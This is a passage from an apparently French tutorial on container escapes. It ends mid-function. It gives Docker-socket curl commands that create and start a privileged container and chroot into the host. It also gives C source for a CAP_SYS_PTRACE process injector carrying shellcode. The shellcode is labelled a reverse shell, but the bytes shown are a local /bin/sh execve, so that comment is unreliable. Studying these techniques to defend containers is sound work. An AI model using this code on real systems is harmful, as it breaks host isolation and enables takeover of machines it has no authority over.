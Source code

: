 ```bash
  }
}' \
http://localhost/containers/create?name=escape_container

# Démarrage du conteneur d'évasion
curl --unix-socket /var/run/docker.sock \
-X POST http://localhost/containers/escape_container/start

# Accès privilégié au système hôte
docker exec -it escape_container chroot /host /bin/bash
```

Cette technique est particulièrement dangereuse car elle **contourne complètement les mécanismes d'isolation** en créant un nouveau conteneur avec des privilèges étendus.

![Flow diagram of a container escape attack using a suid file for privilege escalation, detected and blocked by a container-escaping protection agent](https://pplx-res.cloudinary.com/image/upload/v1755051550/pplx_project_search_images/5258114fb1c1fbd69e3fc5b2f25f0846fe6b4a21.png align="left")

Diagramme de flux d'une attaque d'évasion de conteneur utilisant un fichier suid pour l'escalade de privilèges, détectée et bloquée par un agent de protection contre l'évasion de conteneur.

## Technique #5 : Exploitation des Capabilities Dangereuses

### CAP\_SYS\_PTRACE : Injection de Code dans les Processus Hôte

Avec `CAP_SYS_PTRACE` et l'option `--pid=host`, un attaquant peut **injecter du code arbitraire** dans des processus s'exécutant sur l'hôte. Cette technique exploite la capacité de débogage pour détourner l'exécution de processus légitimes.

```c
// Injecteur simplifié pour exploitation CAP_SYS_PTRACE
#include <sys/ptrace.h>
#include <sys/wait.h>
#include <sys/user.h>

// Shellcode pour reverse shell (x86_64)
unsigned char shellcode[] = 
"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57"
"\x54\x5f\xb0\x3b\x99\x0f\x05";

int inject_process(pid_t target_pid) {
    struct user_regs_struct regs;
    
    // Attachement au processus cible
    if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
        perror("ptrace attach failed");
        return -1;
    }
    
    wait(NULL);
    
    // Sauvegarde des registres originaux
    ptrace(PTRACE_GETREGS, target_pid, NULL, &regs);
    
    // Injection du shellcode à l'adresse RIP courante
    for (int i = 0; i < sizeof(shellcode); i += sizeof(long)) {
        ptrace(PTRACE_POKETEXT, target_pid, regs.rip + i, 
               *(long*)(shellcode + i));
    }
    
    // Reprise de l'exécution avec le shellcode injecté
    ptrace(PTRACE_CONT, target_pid, NULL, NULL);
    ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
    
```